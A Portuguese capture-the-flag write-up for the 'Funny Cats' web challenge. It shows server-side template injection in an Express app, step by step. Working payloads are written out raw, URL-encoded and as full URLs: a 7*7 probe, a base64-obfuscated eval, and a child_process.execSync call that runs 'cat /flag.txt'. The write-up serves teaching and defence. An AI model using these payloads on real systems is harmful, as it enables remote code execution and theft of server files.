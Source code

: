 
# **WEB**

**Autor**: Hakal  
**Desafio**: Funny Cats  
**Nível**: Médio  

---

## **1. Introdução**

Este documento descreve uma exploração bem-sucedida de uma vulnerabilidade Server-Side Template Injection (SSTI) em um servidor Express, visando acessar a flag escondida no arquivo `/flag.txt`. A vulnerabilidade ocorre devido ao processamento inadequado de entradas de usuários, permitindo a execução de código arbitrário no servidor.

---

## **2. Análise do Código Vulnerável**

O servidor em questão exibe imagens de gatos e permite que os usuários instituam um nome de gato por meio de uma URL, como no exemplo: `https://funny-cats.chapeudepalhahacker.club/gato?name=Alfredo`. O site não realiza a devida sanitização da entrada do usuário, o que possibilita a exploração mediante injeções de template.

A falta de sanitização adequada da entrada `name` possibilita a exploração via injeção de template. Essa vulnerabilidade permite que atacantes executem código no lado servidor, podendo ler arquivos sensíveis ou executar comandos arbitrários.

---

## **3. Exploração da SSTI**

A exploração foi realizada em três etapas principais: injeção de código básico, identificação do sistema operacional do servidor e, finalmente, leitura do conteúdo do arquivo `/flag.txt`.

### **Passo 1: Demonstração de Injeção de Template Básica**

Inicialmente, testamos a injeção com uma expressão simples para avaliar o comportamento do servidor.

**Payload:**

```plaintext
<%= 7*7 %>
```

**URL Encoded:**

A codificação em URL do payload foi realizada para evitar problemas com caracteres especiais e filtros de segurança.

```plaintext
%3C%25%3D%207*7%20%25%3E
```

**URL Completa:**

A URL completa com a injeção foi construída da seguinte forma:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%207*7%20%25%3E
```

**Resultado:**

O servidor processou a injeção e retornou o resultado da multiplicação, confirmando a execução de código no lado servidor.

![Resultado da Injeção Básica](1.png)

### **Passo 2: Identificação do Sistema Operacional**

Com a vulnerabilidade confirmada, o próximo passo foi coletar informações sobre o servidor. Utiliza-se o método `eval` e a função `os.platform()` para identificar o sistema operacional:

**Payload:**

```plaintext
<%= '- Sistema Operacional: ' %><%=eval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk=', 'base64').toString())%><%= '' %>
```

**URL Encoded:**

A codificação do payload para URL ficou assim:

```plaintext
%3C%25%3D%20'- Sistema Operacional: '%20%25%3E%3C%25%3Deval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk%3D',%20'base64').toString())%25%3E%3C%25%3D%20''%20%25%3E
```

**URL Completa:**

A URL completa com o payload para a identificação do sistema operacional foi:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%20'- Sistema Operacional: '%20%25%3E%3C%25%3Deval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk%3D',%20'base64').toString())%25%3E%3C%25%3D%20''%20%25%3E
```

**Resultado:**

O servidor retornou à plataforma do sistema operacional, confirmando a execução do comando.

![Identificação do Sistema Operacional](2.png)

### **Passo 3: Leitura do Conteúdo de /flag.txt**

A etapa final consistiu em acessar o arquivo `/flag.txt` do servidor. Utilizamos o módulo `child_process` do Node.js para executar o comando `cat /flag.txt` e obter o conteúdo do arquivo. O comando foi codificado em base64 para evitar interferências.

**Payload:**

```plaintext
<%= '- ' %><%= global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo=', 'base64').toString()) %><%= '' %>
```

**URL Encoded:**

O payload foi novamente URL-encoded para garantir o correto processamento no servidor:

```plaintext
%3C%25%3D%20'- '%20%25%3E%3C%25%3D%20global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo%3D',%20'base64').toString())%20%25%3E%3C%25%3D%20''%20%25%3E
```

**URL Completa:**

A URL com a injeção para leitura do conteúdo do arquivo `/flag.txt` foi:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%20'- '%20%25%3E%3C%25%3D%20global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo%3D',%20'base64').toString())%20%25%3E%3C%25%3D%20''%20%25%3E
```

**Resultado:**

O servidor retornou o conteúdo do arquivo `/flag.txt`, revelando a flag.

![Leitura do Conteúdo de /flag.txt](3.png)

---

## **4. Conclusão**

A exploração da vulnerabilidade SSTI no servidor Express foi concluída com sucesso. Através da injeção de código malicioso, foi possível:

1. Verificar o processamento inadequado de entradas do usuário pelo servidor.
2. Identificar o sistema operacional do servidor.
3. Executar comandos arbitrários para acessar o conteúdo do arquivo `/flag.txt` e obter a flag.

Essa exploração destaca a importância de validar e sanitizar corretamente as entradas dos usuários para prevenir vulnerabilidades SSTI em aplicações web.

---
